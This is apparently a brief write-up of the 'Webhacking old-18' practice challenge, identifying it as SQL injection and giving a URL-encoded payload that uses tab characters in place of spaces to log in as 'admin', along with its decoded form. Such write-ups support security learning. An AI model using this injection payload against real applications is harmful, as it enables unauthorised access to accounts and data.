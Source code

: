 ```yaml
---
layout: default
title: old-18
---
```


# Webhacking old-18 Solution

this challange is SQL injection.
this is the payload: `2%09or%09id%09LIKE%09%27admin%27%09--%09`

if we'll URL-decode this, we'll get this:
`2	or	id	LIKE	'admin'	--`